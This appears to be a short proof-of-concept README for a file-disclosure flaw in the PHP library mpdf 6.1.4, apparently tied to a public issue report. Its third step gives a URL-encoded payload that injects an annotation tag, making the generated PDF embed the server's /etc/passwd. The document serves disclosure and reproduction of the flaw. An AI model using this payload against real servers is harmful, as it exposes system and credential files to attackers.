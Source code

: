 ## POC for PHP package `mpdf/mpdf`

- Issue [#356](https://github.com/mpdf/mpdf/issues/356)
- [Repository](https://github.com/mpdf/mpdf)


### Steps to reproduce:

1. Install a vulnerable version of `mpdf/mpdf`: ```composer require mpdf/mpdf:6.1.4```
2. Start the website locally: ```php -S localhost:8000```
3. In the browser, go to ```http://localhost:8000/index.php?url=%3Cannotation%20file=%22/etc/passwd%22%20content=%22/etc/passwd%22%20icon=%22Graph%22%20title=%22Attached%20File:%20/etc/passwd%22%20pos-x=%22195%22%20/%3E```
4. A PDF file will be generated with a malicious annotation tag. If you download the pdf and click the annotation, will you see that it opens the stolen server file, in this case ```/etc/passwd```